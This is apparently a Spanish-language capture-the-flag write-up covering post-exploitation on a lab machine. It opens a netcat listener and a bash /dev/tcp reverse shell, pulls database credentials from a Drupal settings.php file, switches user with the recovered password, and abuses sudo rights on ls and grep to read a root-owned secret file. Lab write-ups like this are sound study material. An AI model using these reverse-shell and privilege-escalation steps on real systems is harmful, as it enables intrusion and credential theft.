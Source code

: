 Nos ponemos en escucha por el puerto 443
```bash
nc -nlvp 443
```

Nos enviamos la revershell
```bash
bash -c 'exec bash -i &>/dev/tcp/IP/PORT <&1'
```

Ahora tenemos una shell y podemos continurar con la enumeracion del sistema.
- **Archivos sensibles**: 
  - `/sites/default/settings.php` (Credenciales de la base de datos).

```bash
/var/www/html/sites/default # Aqui es la ruta exacta
```

Ahora filtraremos por la palabra clave: **password**
```bash
cat settings.php  | grep "password"
```

Tenemos la contrasena del usuario: `ballenita`
```bash
su ballenita # ( ballenitafeliz )
```

**Hallazgos Clave:**
- Binario con privilegios: `[ sites/default/settings.php ]`
- Credenciales de usuario: `[ ballenita ]:[ ballenitafeliz ]`

### Explotacion de Privilegios
Abusando de privilegios de usuario:
```bash
sudo -l

User ballenita may run the following commands on 8a20aa796a40:
    (root) NOPASSWD: /bin/ls, /bin/grep # Tenemos una via potencial
```

Tenemos este binario: **( ls )** y **( grep )**
**( ls )** Con este binario listaremos los archivos del usuario **root**
```bash
sudo /bin/ls -la /root
```

Tenemos un archivo: 
```bash
-rw-r--r--  1 root root   35 Oct 16  2024 secretitomaximo.txt
```

Ahora con el binario **( grep )** intentaremos ver su contenido
```bash
sudo /bin/grep '' /root/secretitomaximo.txt
```

Tenemos una posible contrasena de **root**
```bash
nobodycanfindthispasswordrootrocks
```
